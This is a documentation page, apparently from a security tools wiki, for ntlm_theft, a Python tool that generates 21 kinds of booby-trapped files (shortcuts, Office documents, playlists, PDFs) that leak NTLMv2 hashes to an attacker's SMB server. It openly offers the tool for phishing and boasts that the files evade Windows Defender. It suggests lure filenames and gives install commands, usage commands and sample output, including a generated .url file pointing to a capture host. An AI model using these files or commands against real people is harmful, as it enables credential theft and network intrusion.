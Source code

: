 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

* Browse to Folder Containing
  * .url – via URL field
  * .url – via ICONFILE field
  * .lnk - via icon_location field
  * .scf – via ICONFILE field (Not Working on Latest Windows)
  * autorun.inf via OPEN field (Not Working on Latest Windows)
  * desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
  * .xml – via Microsoft Word external stylesheet
  * .xml – via Microsoft Word includepicture field
  * .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  * .docx – via Microsoft Word includepicture field
  * .docx – via Microsoft Word external template
  * .docx – via Microsoft Word frameset webSettings
  * .xlsx - via Microsoft Excel external cell
  * .wax - via Windows Media Player playlist (Better, primary open)
  * .asx – via Windows Media Player playlist (Better, primary open)
  * .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  * .jnlp – via Java external jar
  * .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
  * .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
  * .txt – formatted link to paste into Zoom chat

## Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

## Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

## Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

## Examples

#### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

#### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

## URL List

* [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
